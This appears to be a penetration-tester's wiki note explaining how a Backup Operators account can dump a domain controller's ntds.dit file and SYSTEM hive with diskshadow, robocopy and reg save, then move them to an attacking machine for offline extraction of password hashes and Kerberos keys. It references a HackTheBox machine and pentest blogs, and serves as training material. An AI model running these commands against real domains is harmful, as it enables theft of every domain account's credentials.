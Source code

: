 # Backing Up & Dumping `ntds.dit`

> With the right level of permission, a domain account with access to a domain controller can dump the `ntds.dit` file and parse it for the domain accounts' hashes and Kerberos keys offline.

---

## Required Privileges

The user must have the `SeBackupPrivilege` and the `SeRestorePrivilege` (default permissions of the `Backup Operators` AD group). Checkable via `whoami /priv` or `whoami /all`.

The user must also have access to the domain controller.

---

## Backing Up & Dumping  `ntds.dit`

Since `ntds.dit` is actively being used, it can't be copied. Use `diskshadow` to copy the entire drive to another drive, and then lift `ntds.dit` from that drive.

Write the commands to copy the drive into a text file on the target.

```bash
$ cat tgihf.dsh
set context persistent nowriters
add volume c: alias tgihf
create
expose %tgihf% z:
```

`c:` can be replaced with the letter of the drive you want to copy
- `tgihf` can be replaced with any alphabetic alias
- `z:` can be replaced with any other drive letter

If you created the command file on a Unix machine, be sure to use `unix2dos` on the file.

```bash
$ unix2dos tgihf.dsh
```

Execute the commands with `diskshadow`.

```powershell
$ diskshadow /s tgihf.dsh
```

Use `robocopy` to create a copy of `ntds.dit`.

```powershell
robocopy /b z:\windows\ntds . $OUTPUT_NTDS_FILE_PATH
```

To properly parse `ntds.dit`, you'll also need the `SYSTEM` registry file. Create a copy of it.

```powershell
reg save hklm\system $OUTPUT_SYSTEM_FILE_PATH
```

Transfer both files to the attacking machine.

[[secretsdump#Dump a local NTDS dit file requires SYSTEM registry hive file|Parse ntds.dit and dump the domain users' hashes and Kerberos keys.]]

---

## References

[Pentest Lab's Blog Post with Numerous Methods](https://pentestlab.blog/tag/diskshadow/)

[Hacking Articles's Walkthrough](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

[Hack the Box's Blackfield](https://app.hackthebox.com/machines/Blackfield)
